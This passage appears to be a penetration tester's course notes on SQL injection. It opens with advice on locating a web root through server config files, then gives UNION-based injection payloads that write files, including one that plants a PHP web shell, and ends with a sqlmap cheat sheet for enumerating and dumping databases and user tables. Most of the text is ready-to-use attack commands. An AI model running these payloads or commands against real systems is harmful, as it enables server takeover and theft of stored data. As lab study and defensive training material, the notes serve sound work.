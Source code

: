     - Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file to read the server configuration, like Apache's configuration found at /etc/apache2/apache2.conf, Nginx's configuration at /etc/nginx/nginx.conf, or IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using this wordlist for Linux or this wordlist for Windows. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.
    - [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
    - cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
    - cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'--

## SQLMap

- python [sqlmap.py](http://sqlmap.py/) -u '[http://inlanefreight.htb/page.php?id=5](http://inlanefreight.htb/page.php?id=5)'
- sqlmap -u "[http://www.example.com/vuln.php?id=1](http://www.example.com/vuln.php?id=1)" --batch
- Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
- sqlmap '[http://www.example.com/?id=1](http://www.example.com/?id=1)' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
- (e.g. --crawl, --forms or -g).+
- sqlmap '[http://www.example.com/](http://www.example.com/)' --data 'uid=1&name=test'
- It will test both
- special marker * as follows:
    - sqlmap '[http://www.example.com/](http://www.example.com/)' --data 'uid=1*&name=test'
    - uid start vulnerable
- Copy request to file then `sqlmap -r req.txt`
- sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c’
- sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c’
- Attack tuning
    - Prefix and sufix
        - sqlmap -u "[www.example.com/?q=test](http://www.example.com/?q=test)" --prefix="%'))" --suffix="-- -"
- (--level and --risk)
- Database Enumeration
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --banner --current-user --current-db --is-dba
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --tables -D testdb
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --dump -T users -D testdb
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --dump -T users -D testdb -C name,surname
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --dump -T users -D testdb --start=2 --stop=3
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --dump -T users -D testdb --where="name LIKE 'f%'"
- Full DB Enumeration
    - (e.g. --dump -D testdb).  --dump without specifying a table with -T, all of the current database content will be retrieved. As for the --dump-all switch, all the content from all the databases will be retrieved.
    - In such cases, a user is also advised to include the switch --exclude-sysdbs (e.g. --dump-all --exclude-sysdbs), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest for pentesters.
- Advance
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --schema
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --search -T user
    - sqlmap -u "[http://www.example.com/?id=1](http://www.example.com/?id=1)" --search -C pass